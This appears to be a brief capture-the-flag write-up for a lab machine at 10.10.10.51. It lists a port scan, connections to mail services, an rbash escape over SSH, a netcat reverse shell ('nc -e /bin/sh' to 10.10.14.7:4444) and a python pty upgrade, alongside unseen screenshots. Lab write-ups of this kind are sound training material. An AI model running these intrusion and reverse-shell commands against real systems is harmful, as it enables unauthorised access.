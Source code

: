 ```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
reverse shell - nc
move to bash
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)



![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

